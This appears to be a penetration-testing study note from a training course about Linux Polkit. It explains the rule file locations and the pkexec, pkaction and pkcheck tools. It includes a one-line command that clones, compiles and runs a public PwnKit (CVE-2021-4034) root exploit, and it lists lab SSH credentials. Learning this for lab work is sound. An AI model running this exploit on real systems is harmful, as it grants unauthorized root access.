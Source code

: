 # Polkit

> [!info] What is Polkit?
> It is a Linux service that allows user software and system components to communicate with each other if the user software is allowed to communicate as well.
> Custom rules can be placed in /etc/polkit-1/localauthority/50-local.d with the file extension .pkla
> Local authority rules can be used to grant or revoke user and group permissions

## TOC
- [File Groups](file-groups)
- [pkexec pkaction pkcheck](pkexec-pkaction-pkcheck)
- [Privilege Escalation](privilege-escalation)

### File Groups

Polkit works with two file groups:
1 actions/policies located @ 
``` python
(/usr/share/polkit-1/actions)
```
2 rules located @
```python
/usr/share/polkit-1/rules.d
```



### pkexec pkaction pkcheck

`pkexec` - runs a program with the rights of another user or with root rights
`pkaction` - can be used to display actions
`pkcheck` - this can be used to check if a process is authorized for a specific action

Example
```
pkexec -u <user> <command>
pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

###  Privilege Escalation

pkexec memory corruption vulnerability via [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) aka [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

Exploit

```python
git clone https://github.com/arthepsy/CVE-2021-4034.git; cry0l1t3@nix02:~$ cd CVE-2021-4034; gcc cve-2021-4034-poc.c -o poc; ./poc; id
```

## Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.113
```

SSH
```python
ssh htb-student@10.129.205.113
```
